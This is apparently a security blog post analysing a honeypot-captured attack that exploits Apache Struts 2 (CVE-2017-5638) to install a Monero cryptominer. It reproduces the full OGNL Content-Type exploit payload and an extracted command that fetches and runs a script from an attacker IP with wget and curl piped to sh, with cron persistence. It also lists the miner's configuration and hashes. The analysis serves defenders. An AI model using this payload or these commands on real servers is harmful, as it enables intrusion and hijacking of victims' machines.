 ```yaml
---
title: From Apache Struts to Cryptominers
description: Hackers attacking web servers, running Java, with Apache Struts 2 exploits to install cryptominers on Linux/Windows powered machines.
layout: post
permalink: from-apache-struts-to-cryptominer
image: "img/apache_struts_cryptominer.png"
---
```

Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.

## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).

For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header. 

For more details, check [this nice article from TrendMicro](https://blog.trendmicro.com/trendlabs-security-intelligence/cve-2017-5638-apache-struts-vulnerability-remote-code-execution/ "Apache Struts 2").

{% include adsense.html %}

In my case, one of the honeypots mimicking Apache Tomcat got an interesting HTTP request (see below).

```python
GET /images/upload HTTP/1.1
Host: <REDACTED>
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
X-Forwarded-For: 5.188.10[.]251
```

The extracted bash command looks like this:

```bash
echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" \
| crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh
```

As you already noticed, the stage 1 of this attack is following next steps:

- Checks what type of OS is running on exploited server (Linux or Windows);
    - _Looks like, attackers are trying their against Windows boxes, in case Linux tools are installed_;
- Creates 2 cronjobs, which are running every 19th and 20th minutes;
    - _This is malware's persistence mechanism;_
    - _Every time it downloads `logo.jpg` file and executes it as shell script;_
    - _I think attackers messed up here and instead of using 2 different IPs, in case one goes down, used same one (5.188.87[.]12) everywhere;_
- Downloads `logo.jpg` file using `wget` command and executes the file;



## Stage #2. The pseudo-JPG file.

Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).

[ ![Stage 2. Terminating processes](../img/miner_shell_script_1.png){:.post_image} ](../img/miner_shell_script_1.png)

Once other miners have been stopped, there is kind of a MUTEX check implemented. Malware checks if none of specified files are used by any process on the system; then downloads Monero miner and it's configuration file `kworker.conf`.

[ ![Stage 2. MUTEX checks. Monero Miner download](../img/miner_shell_script_2.png){:.post_image} ](../img/miner_shell_script_2.png)

{% include adsense2.html %}

There are 2 available versions of cryptominer and on of them is dropped if `AES-NI` instructions set is not supported by the processor:

```bash
cat /proc/cpuinfo|grep aes>/dev/null
```

## Stage #3. Cryptominer.

As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.

[ ![Stage 3. cpuminer 2.3.3](../img/cpuminer_strings.png){:.post_image} ](../img/cpuminer_strings.png)

Below are the checksums of the binaries, which were already uploaded on VirusTotal, long time before the attack.

```bash
MD5:    c7500149e5ae8f34ffd482057023ab41  atd_1
MD5:    54b0f140da40e5713377f4d4a8f143ad  atd_2
SHA256: 9359f7e7b1dd0f4ce4a2c52fe611c981a3dd7a17f935862e3ce9acb5f2df8ced  atd_1
SHA256: f4864b3793c93de50b953e9751dc22e03fa0333ae6856d8d153be9018da6d911  atd_2
```

Configuration file is saved in `wcubpiztlk.conf` and contains information like pool address, user name and the algorithm used.

```json
{
    "url" : "stratum+tcp://158.69.25[.]77:80",
    "user" : "49mQCzecsC6TS1sNBj5XQX4dNG8MESvLGLPHYJLKohVCQivAB5jJw2xHokTpjtSfE3D8m2U3JjDGEWJMYLrN216CM3dRpBt",
    "pass" : "x",
    "algo" : "cryptonight",
    "quiet" : true
}
```

## Thoughts. Conclusion.

Based on available information on the Internet, 158.69.25[.]77 points to `ca[.]minexmr[.]com`. This particular server is situated in Canada. Knowing that reporting server should be as close to the miners (_in our case victims_), I assume that the majority of targets are planned to be in US and Canada, because using an European server for a victim based in US could increase the _loses_ (a.k.a expired shares).

[ ![MineXMR Servers](../img/miner_servers.png){:.post_image} ](../img/miner_servers.png)

[ ![Miners Profit](../img/miner_profit.png){:.post_image} ](../img/miner_profit.png)

Even if CVE-2017-5638 was fixed relatively fast, attackers had success exploiting this for another year or so. This earned them 314.485 XMR (~ $15.286) *at least*.

As a conclusion, I would say PATCH! PATCH! and PATCH! This is the easiest and *cheapest* way to stay mitigate a a big part of security risks.